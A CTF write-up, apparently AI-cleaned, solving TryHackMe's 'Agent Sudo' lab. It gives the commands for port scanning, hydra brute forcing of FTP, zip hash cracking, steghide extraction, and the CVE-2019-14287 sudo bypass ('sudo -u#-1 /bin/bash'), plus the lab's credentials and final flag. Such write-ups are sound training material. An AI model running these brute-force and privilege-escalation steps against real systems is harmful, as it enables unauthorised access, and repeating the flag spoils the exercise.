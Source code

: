 📝 CTF-Writeups/TryHackMe/AgentSudo/README.md

Here’s a cleaned-up Markdown version of your "Agent Sudo" CTF write-up:

# 🕵️ Agent Sudo - TryHackMe CTF Write-up

**Date:** 02 March 2025  
**Platform:** TryHackMe  
**CTF Type:** Boot2Root  
**Difficulty:** Beginner to Intermediate  

---

## 🔍 Enumeration

### Rustscan + Nmap
```bash
rustscan -a agentsudo.thm

nmap -sC -sV -oA agentsudo.thm

Open Ports:

    21 FTP (vsftpd 3.0.3)

    22 SSH (7.6p1 Linux)

    80 HTTP

🌐 Web Enumeration

No directories found initially.

Modified the User-Agent header to access a hidden page:

User-Agent: C

Accessed:

http://agentsudo.thm/agent_C_attention.php

Hidden Message Found

Attention chris,
Do you still remember our deal? Please tell agent J about the stuff ASAP.
Also, change your god damn password, it's weak!
- Agent R

🔐 SSH Brute Force

Found potential username: chris
Used hydra to brute-force FTP login:

hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://agentsudo.thm -t 4

Credentials Found:

    User: chris

    Password: crystal

![Screenshot](./image.png)


🗜️ Cracking Zip Files
Convert zip to hashes

zip2john <file.zip> > hashes_for_john.txt

Crack with John the Ripper

john hashes_for_john.txt --wordlist=/usr/share/wordlists/rockyou.txt

Password: alien
📂 File Extraction
Extract contents with 7zip

The file contained base64-encoded content:

echo QXJlYTUx | base64 -d

Decoded Message: Area51
🖼️ Steganography
Extract hidden message from image

steghide extract -sf <filename>

Output file: messahe.txt
Password for steghide: hackerrules!
👥 User Enumeration

Found another user: james
SSH into James' account

ssh james@agentsudo.thm
# Password: hackerrules!

Download suspicious file

scp james@agentsudo.thm:/home/james/Alien_autspy.jpg .

🔎 Image Analysis

Googled Alien_autspy.jpg and found Roswell alien autopsy.
🛠️ Privilege Escalation

Discovered user james can run this:

(ALL, !root) /bin/bash

Used CVE-2019-14287 exploit:

sudo -u#-1 /bin/bash

→ Root access obtained!
🏁 Final Flag:

b53a02f55b57d4439e3341834d70c062

📚 References

    CVE-2019-14287 - sudo bypass
